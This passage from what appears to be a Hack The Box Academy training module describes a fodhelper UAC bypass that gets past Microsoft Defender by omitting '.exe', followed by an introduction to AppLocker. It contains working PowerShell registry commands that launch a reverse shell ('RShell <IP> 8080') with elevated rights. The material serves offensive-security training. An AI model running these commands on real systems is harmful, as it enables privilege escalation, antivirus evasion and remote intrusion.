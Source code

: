![image](https://academy.hackthebox.com/storage/modules/254/2/26.png)

As it turns out, however, it is very easy to bypass this detection. As explained in this [blog post](https://s3cur3th1ssh1t.github.io/Signature_vs_Behaviour/), `Microsoft Defender Antivirus` is only triggered when it senses `".exe"` in the value being set, so if you simply remove the `".exe"` you will not get blocked.

In `Windows`, you do not need to specify `".exe"` for `Windows` to locate a binary. So for example, if you tried running `C:\Windows\System32\cmd` you will notice that `cmd.exe` is still launched.

![image](https://academy.hackthebox.com/storage/modules/254/2/57.png)

Making this slight adaptation, we can see that the bypass works without getting blocked by `Microsoft Defender Antivirus` (in this case launching `RShell.exe`):

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Windows\Tasks\RShell <IP> 8080" -Force

C:\Windows\System32\fodhelper.exe

```

![image](https://academy.hackthebox.com/storage/modules/254/2/58.png)

To cleanup after the bypass, we should run the following command:

```powershell
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force

```

## Extra Reference: WinPwnage

A project which may serve as a useful reference which researching other `UAC bypass` techniques is [WinPwnage](https://github.com/rootm0s/WinPwnage), which contains `Python` implementations of `15` different vectors.


# AppLocker

## Introduction to AppLocker

[AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/applocker/applocker-overview) is a `Windows` (defense-in-depth) security feature which allows administrators to `restrict which apps and files a user can run`. Rules may be applied to the following file types:

- `Executable files`: .exe, .com
- `Windows Installer files`: .msi, .msp
- `Scripts`: .js, .ps1, .vbs, .cmd, .bat
- `Packaged apps`: .aappx
- `Dynamic-Link Libraries`: .dll
